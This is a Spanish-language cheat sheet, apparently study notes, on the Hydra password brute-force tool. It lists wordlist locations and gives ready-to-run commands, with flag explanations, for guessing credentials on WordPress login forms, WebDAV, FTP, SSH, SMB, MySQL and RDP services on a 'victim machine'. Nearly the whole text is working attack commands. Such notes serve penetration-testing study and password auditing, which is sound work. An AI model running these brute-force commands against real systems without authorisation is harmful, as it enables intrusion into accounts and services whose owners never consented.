 # Hydra 

Tags: #Hydra 

Es una herramienta de prueba de penetración que se utiliza para realizar ataques de fuerza bruta, por así decirlo, en servicios de autenticación remotos. Esta herramientas nos ayuda a poder encontrar passwd mediante ataques furtivos. 

- Soporte de múltiples protocolos: Hydra es compatible con una amplia gama de protocolos de autenticación incluyendo: SSH, Telnet, FTP, HTTP, POP3, SMB, etc...
* Fuerza bruta avanzada: Hydra es capas de realizar ataques de fuerza bruta avanzados, incluyendo ataques de diccionario y ataques basados en patrones. 
	* Podemos usar los diccionarios que ya viene en Parrot o Kali Linux (rockyou.txt)
* Modos de operación flexibles: Hydra admite diferentes modos de operación, incluyendo modo de ataque directo, modo de ataque de diccionario y modo de ataque hibrido.
* Capacidad de paralelización: Hydra es capas de realizar múltiples intentos de autenticación simultáneamente, lo que mejora la velocidad y la eficiencia del ataque. 

- Casos de uso:
	- Pruebas de penetración 
	- Auditoria de passwd
	- Recuperación de passwd

```bash 
# Directorio 
/usr/share/wordlists/rockyou.txt

# Directorios 'passwords'
/usr/share/metasploit-framework/data/wordlists/unix-passwords.txt
/usr/share/wordlists/metasploit/unix-passwords.txt
/usr/share/wordlists/metasploit/common_passwords.txt

# Directorios 'Users'
/usr/share/metasploit-framework/data/wordlists/unix_users.txt
/usr/share/wordlists/metasploit/unix_users.txt
/usr/share/wordlists/metasploit/common_users.txt
```

## Hydra fuerza bruta WordPress

Esto se usa en el panel del admin de WordPress.
```python
❯ hydra -l admin -P /usr/share/metasploit-framework/data/wordlists/unix-passwords.txt http://IP http-post-form '/wordpress/wp-login.php:log=^USER^&pwd=^PASS^:S=302' 
❯ hydra -l admin -P /usr/share/metasploit-framework/data/wordlists/unix-passwords.txt http://IP http-post-form '/wordpress/wp-login.php:log=^USER^&pwd=^PASS^:F=Invalid user'
❯ hydra -l admin -P /usr/share/metasploit-framework/data/wordlists/unix-passwords.txt http://IP http-post-form "/login.php:login=^USER^&password=^PASS^&security_level=0&form=submit:Invalid credentials or user not activated!"

# Haremos un ataque de fuerza bruta a WordPress (Todo lo anterior lo obtenemos de la misma página web en 'form action=/login.php') y colocamos todas la etiquetas 

	# l (ele) = Usuario de login
	# P = Ruta del diccionario
	# log y pwd = Lo podemos encontrar en el apartado de la pagina web 'Ctrl + u' 
	# S = Redireccionamiento con el codigo 302
	# F = Error que nos muestre el panel de autenticacion, por si no sirve con el 'S'
```

## Hydra fuerza bruta WebDAV

```python 
❯ hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt ❮IP❯ http-get /webdav/

	# webdav = Directorio de autenticacion 
	# L = Indicas un archivo que disponga de usuarios para login
	# P = Ruta del diccionario o 'archivo que contiene passwds'
```

## Hydra fuerza bruta FTP
```python
❯ hydra -l omar -P /usr/share/wordlists/rockyou.txt ftp://❮IP❯ -t 15 # Haremos un ataque de fuerza bruta al puerto SSH, antes de completar el comando con soble TAB podemos ver la lista de diccionarios

❯ hydra -L /usr/share/metasploit-framework/data/wordlists/unix_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt ❮IP❯ ftp -t 4 -I

	# l (ele) = Usuario de login
	# L = Indicas un archivo que disponga de usuarios 
	# P = Ruta del diccionario o 'archivo que contiene passwds'
	# t = Lanzar tareas en paralelo al mismo tiempo
	# I = Saltar la espera 
```

## Hydra fuerza bruta SSH

```python
❯ hydra -L /usr/share/metasploit-framework/data/wordlists/unix_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt ssh://❮IP❯ -t 4
# Haremos un ataque de fuerza bruta al puerto SSH

	# ssh = Puerto al que vamos a atacar 22
	# IP = Direccion de la maquina victima
	# P = Ruta del diccionario o 'archivo que contiene passwds'
	# L = Ruta del diccionario o 'archivo que contiene users' para login
	# t = Lanzar tareas en paralelo al mismo tiempo
```

```python
❯ hydra -l root -P /usr/share/wordlists/rockyou.txt ❮IP❯ ssh
❯ hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://❮IP❯ -t 15 -V -s 2222 # Haremos un ataque de fuerza bruta al puerto SSH, antes de completar el comando con soble TAB podemos ver la lista de diccionarios

	# ssh = Puerto al que vamos a atacar 22
	# IP = Direccion de la maquina victima
	# P = Ruta del diccionario o 'archivo que contiene passwds'
	# l (ele) = Usuario login que en este caso es  'root'
	# t = Lanzar tareas en paralelo al mismo tiempo
	# V = Verbosity
	# s = Port y es el puerto al que nos queremos conectar 
```

## Hydra fuerza bruta SMB / SAMBA
```python 
❯ hydra -l admin -P /usr/share/wordlists/rockyou.txt smb://<IP>        # Fuerza bruta al usuario en el servidor SMB
❯ hydra -l admin -P /usr/share/wordlists/rockyou.txt <IP> smb

❯ hydra -L user.list -P password.list smb://<IP>        # Para ver si esos usuarios y passwd son validos en un servidor SMB

	# L = Ruta o archivo que contiene los usuarios para login
	# P = Ruta o archivo que contiene las passwd
	# l = Un usuario en especifico para login 
```

## Hydra fuerza bruta MYSQL

```python
❯ hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt <IP> mysql

	# P = Ruta o archivo que contiene las passwd
	# l = Un usuario en especifico para login 
```

## Hydra fuerza bruta RDP

```python 
# Brute force para encontrar usuarios y sus passwd en RDP
❯ hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://<IP> -s 3333           

	# L = Ruta o archivo que contiene los usuarios para login 
	# P = Ruta o archivo que contiene las passwd
	# s = Especificas el puerto, si no lo haces Hydra asumira que es el puerto 3389
```



